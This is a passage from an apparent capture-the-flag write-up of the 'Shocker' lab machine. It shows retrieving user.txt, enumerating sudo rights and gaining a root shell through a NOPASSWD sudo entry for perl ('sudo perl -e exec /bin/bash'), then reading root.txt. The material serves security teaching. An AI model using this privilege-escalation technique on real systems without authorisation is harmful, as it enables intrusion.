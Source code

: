 And get `user.txt`:

```

shelly@Shocker:/home/shelly$ cat user.txt
2715b1ad************************

```

## Shell as root

### Enumeration

I also manually check `sudo -l` before uploading any kind of enumeration script, and it pays off here:

```

shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

shelly can run `perl` as root.

### Shell

`perl` has a `-e` option that allows me to run Perl from the command line. It also has an `exec` command that will run shell commands. Putting that together, I can run `bash` as root:

```

shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/home/shelly#

```

That’s enough to grab `root.txt`:

```

root@Shocker:~# cat root.txt
3675a0fa************************

```

## Beyond Root

### Apache Config
